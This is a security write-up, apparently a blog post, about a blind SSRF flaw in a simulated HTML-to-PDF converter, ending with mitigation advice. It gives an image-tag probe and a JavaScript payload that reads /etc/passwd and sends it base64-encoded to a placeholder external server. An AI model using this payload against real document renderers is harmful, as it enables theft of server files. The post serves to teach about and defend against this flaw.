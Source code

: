 ```yaml
---
title: "Exploring Blind SSRF Vulnerabilities in HTML to PDF Conversion Applications"
date: 2023-04-23
author: 0xLuc4s
categories: [ssrf-vulnerabilies]
tags: [ssrf]
---
```


## Overview

This post delves into a case study of a blind Server-Side Request Forgery (SSRF) vulnerability within a fictitious application designed for converting HTML documents to PDFs. The application, which is a simulated target in a controlled environment, highlights the subtlety and potential impact of SSRF vulnerabilities, especially when they do not provide direct feedback or error messages.

## Testing Environment and Setup

The target application listens on port 8080 and accepts HTML files for processing into PDF documents. Initial observations indicated that the server's response was identical regardless of the HTML content provided, suggesting no visible data processing errors or SSRF indications through the front-end.

## Conducting Blind SSRF Tests

To test for blind SSRF, we employed an external server setup to capture any outbound requests from the application. The test involved submitting an HTML file containing a reference to an image hosted on our external server:

```html
<!DOCTYPE html>
<html>
<body>
    <h1>Hello World!</h1>
    <img src="http://<EXTERNAL SERVICE IP>:9090/test-image">
</body>
</html>

## Observations and Results

Upon processing the HTML file, the application attempted to fetch the image from the specified URL, thus confirming the SSRF vulnerability. This behavior was indicative of the application performing unauthorized external interactions based on HTML content, a critical aspect for SSRF exploitation.

## JavaScript Exploitation and Data Exfiltration

Further exploration revealed that the application's PDF conversion tool allowed JavaScript execution within the HTML files. Leveraging this, we crafted a JavaScript snippet to read a sensitive local file and send its contents to our external server:

```html
<html>
<body>
    <script>
    var xhr = new XMLHttpRequest();
    xhr.open("GET", "file:///etc/passwd", true);
    xhr.onreadystatechange = function () {
        if (xhr.readyState === 4 && xhr.status === 200) {
            // Encode the file contents in base64
            var b64content = btoa(xhr.responseText);
            // Send the encoded data to the external server
            var exfil = new XMLHttpRequest();
            exfil.open("GET", "http://<EXTERNAL SERVICE IP>:9090/exfil?data=" + b64content, true);
            exfil.send();
        }
    };
    xhr.send();
    </script>
</body>
</html>

## Mitigation Strategies

To mitigate blind SSRF vulnerabilities, it is essential to:

- **Validate and sanitize all incoming data**, especially URLs and file paths, to prevent external resource references.
- **Implement strict allowlists** for outbound connections and protocols that the server can access.
- **Use secure programming practices** to disable unnecessary HTTP features that could be exploited via SSRF.
- **Regularly update and patch** third-party libraries and tools used for processing user-supplied content.

## Conclusion

Blind SSRF poses significant security risks, particularly in applications that process external input to interact with internal or external resources. Understanding and mitigating these vulnerabilities is crucial for securing web applications against potential attacks and data breaches. These strategies not only protect against SSRF but also reinforce the overall security posture of your digital infrastructure.
